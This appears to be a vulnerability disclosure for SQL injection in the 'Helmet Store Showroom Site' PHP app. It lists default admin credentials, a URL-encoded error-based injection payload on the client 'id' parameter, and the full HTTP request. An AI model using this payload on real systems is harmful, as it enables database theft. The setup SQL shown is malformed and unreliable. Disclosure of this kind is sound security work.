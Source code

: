 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

BUG_Author: HMHYHM

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

First execute the following sql statement in the database to create the clients table

```sql
CREATE TABLE `clients` (
  `id` int(11) NOT NULL,
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
COMMIT;
```

Vulnerability File: /hss/admin/?page=client/manage_client&id=

Vulnerability location: /hss/admin/?page=client/manage_client&id=,id

dbname =hss_db,length=6

[+] Payload:  /hss/admin/?page=client/manage_client&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id


```sql
GET /hss/admin/?page=client/manage_client&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/204069901-9bea3c9d-bc0d-47e6-b1cd-d8e443f46b45.png)
